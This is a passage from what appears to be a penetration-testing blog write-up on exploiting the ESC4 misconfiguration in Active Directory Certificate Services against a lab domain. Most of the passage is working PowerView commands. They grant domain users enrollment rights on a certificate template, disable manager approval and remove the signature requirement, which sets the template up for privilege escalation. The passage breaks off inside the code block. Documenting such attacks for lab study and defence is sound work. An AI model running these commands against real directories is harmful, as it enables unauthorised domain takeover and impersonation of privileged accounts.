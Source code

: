 <img src="/images/2022-09-16/ESC4_recon2.png"> 

### Exploitation

Well in this case we can't work with Certify ~~or Certipy~~ (see below update) alone, because we need to alter the AD object / cert template. For this reason we are going to use [Will's](https://twitter.com/harmj0y) [PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1) or [Fortalice Solutions's](https://fortalicesolutions.com/) [modifyCertTemplate](https://github.com/fortalice/modifyCertTemplate) respectively.

#### PowerView & Certify
```
# Give users enrollment rights  
Add-DomainObjectAcl -TargetIdentity ESC4 -PrincipalIdentity "Domänen-Benutzer" -RightsGUID "0e10c968-78fb-11d2-90d4-00c04f79dc55" -TargetSearchBase "LDAP://CN=Configuration,DC=mcafeelab,DC=local" -Verbose  
<img src="/images/2022-09-16/esc4_enrollset.png">  

# Disable manager approval
Set-DomainObject -SearchBase "CN=Certificate Templates,CN=Public Key Services,CN=Services,CN=Configuration,DC=mcafeelab,DC=local" -Identity ESC4 -XOR @{'mspki-enrollment-flag'=2} -Verbose

# Disable signature required
Set-DomainObject -SearchBase "CN=Certificate Templates,CN=Public Key Services,CN=Services,CN=Configuration,DC=mcafeelab,DC=local" -Identity ESC4 -Set @{'mspki-ra-signature'=0} -Verbose

# Enable enrollee supplies subject
```